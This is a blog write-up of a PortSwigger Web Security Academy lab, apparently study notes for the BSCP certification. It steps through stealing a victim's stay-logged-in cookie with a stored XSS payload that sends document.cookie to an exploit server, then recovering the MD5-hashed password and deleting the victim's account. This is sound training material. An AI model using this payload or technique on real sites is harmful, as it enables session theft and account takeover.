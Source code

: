 ```yaml
---
layout: post
title:  "PortSwigger - Authentication - Lab 10"
date:   2024-06-05 18:40
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [authentication,bscp]
categories: [PortSwigger]
---
```


# Lab 10 - Offline password cracking
><b>Lab Objective:</b>
<br/><br/>
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.
<br/>
<br/>
`Your credentials: wiener:peter`<br/>
`Victim's username: carlos`
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking">Port Swigger - Lab 10</a>
<br/>

### Solution
<hr/>

#### 1. With Burp running, use your own account to investigate the `Stay logged in` functionality. Notice that the `stay-logged-in cookie` is Base64 encoded.

#### 2. In the `Proxy > HTTP history` tab, go to the Response to your login request and highlight the `stay-logged-in` cookie, to see that it is constructed as follows: `username+':'+md5HashOfPassword`

#### 3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS

#### 4. Go to the exploit server and make a note of the URL.

#### 5. Go to one of the blogs and post a comment containing the following <a href="https://portswigger.net/web-security/cross-site-scripting/stored">stored XSS payload</a>, remembering to enter your own exploit server ID:
`<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`

#### 6. On the exploit server, open the access log. There should be a `GET` request from the victim containing their `stay-logged-in` cookie

#### 7. Decode the cookie in Burp Decoder. The result will be: `carlos:26323c16d5f4dabff3bb136f2460a943`

#### 8. Copy the hash and paste it into a search engine. This will reveal that the password is `onceuponatime`

#### 9. Log in to the victim's account, go to the `My account` page, and delete their account to solve the lab.
<hr/>